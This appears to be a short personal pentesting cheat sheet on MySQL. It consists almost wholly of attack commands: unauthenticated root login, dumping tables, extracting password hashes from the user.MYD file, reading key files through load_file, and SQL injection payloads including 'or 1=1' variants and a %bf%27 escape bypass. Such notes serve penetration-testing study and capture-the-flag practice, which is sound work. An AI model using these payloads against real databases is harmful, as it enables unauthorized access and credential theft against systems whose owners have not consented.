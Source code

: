 ```
mysql -u root
```

```
show databases;
use [DATABASE];
show tables;
select * from [TABLE];
```

```
mysql -u root -p password
```

```
find / -name mysql 2>/dev/null
```

```
strings /var/lib/mysql/mysql/user.MYD
```

```
select load_file('/var/lib/mysql-files/key.txt');
```

![[Pasted image 20230906083443.png]]

```
' 1 or 1=1 --'
```

```
' 1 or 1=1 #'
```

```
SELECT * FROM users WHERE username = 'input' LIMIT 1;
```

```
SELECT * FROM users WHERE username = '' OR 1=1; --' LIMIT 1;
```

```
%bf%27
```

```
%bf%27 or 1=1 --
```

